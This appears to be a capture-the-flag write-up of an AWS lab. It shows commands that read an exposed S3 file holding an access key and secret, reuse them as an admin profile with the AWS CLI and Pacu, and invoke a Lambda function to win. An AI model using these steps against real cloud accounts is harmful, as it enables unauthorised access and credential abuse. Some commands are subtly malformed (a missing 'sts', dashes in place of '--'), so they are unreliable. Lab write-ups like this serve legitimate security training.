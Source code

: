 ```
aws s3 ls --profile ec2
```

Interesting a bucket, with a file called admin-user.txt what’s in there?

```
cat admin-user.txt 
AKIA5X73I5MBL22TOFFD
mGJdldTovP4OIxSMUiodhdPyAjdbbTQTtxFt+piP
```

Lets plug those into pacu/aws cli and see what we can do

```
aws configure —profile admin
```

Validate they work:
```
aws get-caller-identity —profile admin
```

Neat now we’re ’Shepard’ 

Set these keys in pacu and we can now run admin functions!

```
run aws__enum_spend
run aws__enum_account
```

Knowing that we have full admin rights to this account we can now run the Lambda script:

```
aws lambda invoke --function-name cg-lambda-cgid0aj9eyqxxk --profile admin --region us-east-1 ./win.txt
```

We run this and get a json response with StatusCode 200 and when we cat win.txt we are greeted with “You win!"

